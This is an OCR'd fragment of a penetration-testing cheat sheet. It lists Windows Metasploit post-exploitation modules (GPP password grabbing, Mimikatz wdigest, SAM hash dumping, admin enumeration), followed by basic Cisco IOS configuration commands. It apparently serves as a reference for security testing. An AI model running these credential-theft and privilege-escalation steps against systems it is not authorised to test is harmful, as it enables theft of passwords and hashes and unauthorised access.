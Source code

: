 	Windows Metasploit Modules for privilege escalation.

		run post/windows/gather/win_privs
		Metasploit show privileges of current user

		use post/windows/gather/credentials/gpp
		Metasploit grab GPP saved passwords

		load mimikatz -> wdigest
		Metasplit load Mimikatz

		run post/windows/gather/local_admin_search_enum
		Idenitfy other machines that the supplied domain user has administrative access to

		run post/windows/gather/smart_hashdump
		Automated dumping of sam file, tries to esc privileges etc

### CISCO IOS Commands
A collection of useful Cisco IOS commands.

	enable
	Enters enable mode

	conf t
	Short for, configure terminal

	(config)# interface fa0/0
	Configure FastEthernet 0/0

	(config-if)# ip addr 0.0.0.0 255.255.255.255
	Add ip to fa0/0

	(config-if)# ip addr 0.0.0.0 255.255.255.255
	Add ip to fa0/0

	(config-if)# line vty 0 4
	Configure vty line

	(config-line)# login
	
	(config-line)# password YOUR-PASSWORD
	Set telnet password

	show running-config
	Show running config loaded in memory

	show startup-config
	Show sartup config

# show version
	

show cisco IOS version

# show session
	
